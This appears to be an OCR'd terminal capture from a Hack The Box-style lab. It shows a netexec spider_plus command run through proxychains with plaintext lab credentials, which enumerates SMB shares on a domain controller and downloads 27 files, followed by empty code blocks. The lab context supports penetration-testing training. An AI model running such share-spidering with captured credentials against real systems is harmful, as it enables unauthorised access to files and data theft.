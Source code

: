 ```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera' -M spider_plus -o DOWNLOAD_FLAG=True
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         hope.windcorp.htb 445    hope             [*]  (name:hope) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         hope.windcorp.htb 445    hope             [+] windcorp.htb\ray.duncan:pantera 
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Started module spidering_plus with the following options:
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]     STATS_FLAG: True
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS hope.windcorp.htb 445    hope             [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         hope.windcorp.htb 445    hope             [*] Enumerated shares
SMB         hope.windcorp.htb 445    hope             Share           Permissions     Remark
SMB         hope.windcorp.htb 445    hope             -----           -----------     ------
SMB         hope.windcorp.htb 445    hope             ADMIN$                          Remote Admin
SMB         hope.windcorp.htb 445    hope             C$                              Default share
SMB         hope.windcorp.htb 445    hope             IPC$            READ            Remote IPC
SMB         hope.windcorp.htb 445    hope             NETLOGON        READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             SYSVOL          READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             WC-Share        READ            
SPIDER_PLUS hope.windcorp.htb 445    hope             [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/hope.windcorp.htb.json".
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, SYSVOL, WC-Share)
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] SMB Readable Shares:  4 (IPC$, NETLOGON, SYSVOL, WC-Share)
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] SMB Filtered Shares:  1
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Total folders found:  87
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Total files found:    28
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Files filtered:       1
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File size average:    11.31 KB
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File size min:        22 B
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File size max:        111.7 KB
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] File unique exts:     9 (.ps1, .lnk, .xml, .cmtx, .txt, .png, .inf, .ini, .pol)
SPIDER_PLUS hope.windcorp.htb 445    hope             [*] Downloads successful: 27
SPIDER_PLUS hope.windcorp.htb 445    hope             [+] All files processed successfully.
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```
